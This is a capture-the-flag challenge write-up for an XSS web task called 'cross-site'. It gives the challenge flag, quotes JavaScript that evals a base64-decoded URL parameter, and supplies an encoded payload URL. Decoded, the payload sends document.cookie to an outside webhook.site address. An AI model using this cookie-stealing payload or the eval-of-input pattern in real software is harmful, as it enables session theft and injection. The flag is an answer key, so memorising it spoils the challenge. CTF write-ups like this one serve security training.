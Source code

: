 # Challenge Name:
cross-site

## Description:
basic vuln that can be so many $$$ in bounties

## Category:
Web

## File:
./dist.zip

## Flag:
`STORM{easy_xss_with_encoded_payload_00fe4bacb1dd}`

## Points:
500

## Author:
k.eii

## PoC
```
    if (url.searchParams.has("key")) {
        let key = url.searchParams.get("key");

        try {
            key = atob(key);
            if (key.includes("run")) {
                eval(key.replace("run", ""));
```
eval key param (base64 encoded needed because of atob)

payload:
`http://proxy/?key=cnVuKGZldGNoKCdodHRwczovL3dlYmhvb2suc2l0ZS9iMjVlMWU5OC01OWIyLTQ5M2QtOGM0Ny05MGI5N2Q5YWEyNWY/JyArIGRvY3VtZW50LmNvb2tpZSkpOw==`
